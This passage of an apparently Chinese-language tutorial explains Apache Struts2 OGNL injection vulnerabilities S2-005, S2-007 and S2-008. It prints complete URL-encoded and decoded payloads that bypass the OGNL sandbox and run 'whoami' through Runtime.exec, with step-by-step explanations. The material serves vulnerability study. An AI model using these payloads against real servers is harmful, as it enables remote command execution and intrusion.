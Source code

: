 > 第二种payload是对第一种payload的url编码.S2-003漏洞补丁中的安全配置(禁止静态方法allowStaticMethodAcces、MethodAccessor.denyMethodExecution调用和类方法执行等)被绕过再次导致了S2-005漏洞.利用OGNL先把沙盒关闭掉,xwork.MethodAccessor.denyMethodExecution设置为false,allowStaticMethodAccess设置为true就可以绕过沙盒机制了.

> 所以S2-005的payload和S2-003的payload类似,S2-005的payload在S2-003的基础上加了一个设置_memberAccess.allowStaticMethodAccess属性为true来继续绕过沙盒限制.

> 首先要对#、@字符进行unicode编码来绕过Struts2的安全限制,然后设置xwork.MethodAccessor.denyMethodExecution属性为false和_memberAccess.allowStaticMethodAccess属性为true来开启方法调用和静态方法调用绕过安全沙盒的限制.

> 然后调用java.util.Collections类中的EMPTY_SET属性对memberAccess.excludeProperties进行空赋值,完成绕过.

> 剩下的流程就是执行命令,并把结果回显出来.首先定义一个字符串对象#mycmd='whoami',然后以mycmd为参数调用java.lang.Runtime类的getRuntime().exec()方法进行执行命令,然后以执行的命令结果的输入流为参数新建一个java.io.DataInputStream对象来获取执行命令结果的输入流,之后新建一个数组,然后把在输入流中读取的字符赋值给这个数组.然后以这个数组为参数新建一个字符串对象,之后调用org.apache.struts2.ServletActionContext类的getResponse()方法获取一个response对象,最后调用response对象的getWriter().println方法输出这个字符串,于是就能看到了命令回显内容.

## S2-007

```java
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('whoami').getInputStream())) + '
```

> 首先设置_memberAccess的allowStaticMethodAccess属性为true来开启允许静态方法调用,然后新建一个值为false的bool对象,然后把这个对象赋值给xwork.MethodAccessor.denyMethodExecution属性来设置xwork.MethodAccessor.denyMethodExecution属性为false来允许方法执行.然后就是输出执行的命令结果,调用
java.lang.Runtime类的getRuntime().exec方法执行whoami命令,然后获取执行结果的输入流,最后调用org.apache.commons.io.IOUtils的toString方法把输入流转换为字符串并输出.

## S2-008

```java
?debug=command&expression=%28%23_memberAccess%5B"allowStaticMethodAccess"%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28"false"%29%20%2C%23context%5B"xwork.MethodAccessor.denyMethodExecution"%5D%3D%23foo%2C@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27whoami%27%29.getInputStream%28%29%29%29
```

url解码后:

```java
?debug=command&expression=(#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('whoami').getInputStream()))
```

> 这个payload url解码后和S2-007的payload基本上一致的.

> 首先设置_memberAccess的allowStaticMethodAccess属性为true来开启允许静态方法调用,然后新建一个值为false的bool对象,然后把这个对象赋值给xwork.MethodAccessor.denyMethodExecution属性来设置xwork.MethodAccessor.denyMethodExecution属性为false来允许方法执行.然后就是输出执行的命令结果,调用
java.lang.Runtime类的getRuntime().exec方法执行whoami命令,然后获取执行结果的输入流,最后调用org.apache.commons.io.IOUtils的toString方法把输入流转换为字符串并输出.
